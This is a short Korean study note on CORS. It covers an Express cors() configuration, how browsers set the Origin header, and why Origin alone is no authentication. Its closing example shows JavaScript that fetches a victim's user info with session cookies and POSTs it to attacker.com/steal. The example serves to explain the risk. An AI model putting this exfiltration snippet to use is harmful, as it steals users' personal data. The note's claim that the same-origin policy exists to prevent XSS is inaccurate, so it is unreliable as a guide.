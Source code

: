 # CORS란 무엇인가?

> CORS(Cross-Origin Resource Sharing)는 웹 애플리케이션이 다른 도메인, 프로토콜 또는 포트에서 리소스에 접근할 수 있도록 허용하는 보안 기능이다. 기본적으로 웹 브라우저는 보안상의 이유로 서로 다른 출처에서의 요청을 제한하는데, CORS는 이를 관리하고 제어하는 메커니즘이다.

## 왜 CORS가 필요한가?

> 기본적으로 브라우저(매우중요)는 서로 다른 출처 간의 요청을 차단하여 XSS(교차 사이트 스크립팅) 공격을 방지한다. CORS는 이를 우회할 수 있는 방법을 제공한다.


## CORS 설정 예시

> CORS는 받은 요청을 허용할지 말지에 대한 서버가 요청을 받을때 기본설정이다. 

```javascript

const express = require('express');
const cors = require('cors');
const app = express();

// CORS 설정
app.use(cors({
    origin: 'https://example.com', // 허용할 출처
    methods: 'GET,POST,PUT,DELETE', // 허용할 메서드
    allowedHeaders: 'Content-Type,Authorization', // 허용할 헤더
    credentials: true // 인증 정보 허용
}));

app.get('/api/data', (req, res) => {
    res.json({ message: 'Hello, CORS!' });
});

app.listen(3000, () => {
    console.log('Server is running on port 3000');
});

```

### 예시

- front가 https://example.com:443 에서 서버로 요청을 보내면
- Orgin은 https://example.com:443 이 된다
    - 이 Origin은 브라우저가 자동 작성해주는 것으로, 브라우저의 기능을 통해 cors보안을 할 수 있는 것이다(상호 규약)
    - 이 Origin은 브라우저가 자동으로 작성하는 값이며, 브라우저는 이 값을 바탕으로 CORS 보안 정책을 적용한다
    - 즉, 서버가 이 Origin을 보고 요청을 허용할지 거부할지 판단하게 된다
- explorer 같은 경우는 port가 다르더라도 수신이 가능해 보안상 심각한 문제가 있었다(origin이 443포트가 아닌 8123포트여도 송수신이 문제없이 가능했던 이슈)

### 의문들

- Q : cors 는 그럼 헤더에 origin:원하는 사이트만 넣으면 되는 굉장히 허술한거아님? 토큰이 없다면 어떻게 검증함?
    -  CORS 자체는 보안 기술이라기보다, 브라우저에 명령하는 “정책”에 가깝다. CORS는 클라이언트(브라우저)를 제어하기 위한 것이지, 서버 보안을 보장하지 않는다.
    - 브라우저가 보내주는 Origin은 그냥 "신고"일 뿐이다. 진짜 인증은 별도의 메커니즘으로 해야 한다.
    - 그래서 보통 jwt, session 등을 보안요소로 사용하고, origin만 사용하는 것은 굉장히 위험하다

### js를 해커가 사용하게 되면 위험한 이유
```javascript
fetch('https://example.com/api/user-info', {
  method: 'GET',
  credentials: 'include', // ← 세션 쿠키까지 보내라는 명령
})
.then(res => res.json())
.then(data => {
  // 피해자의 개인정보 data를 빼감
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  })
})
```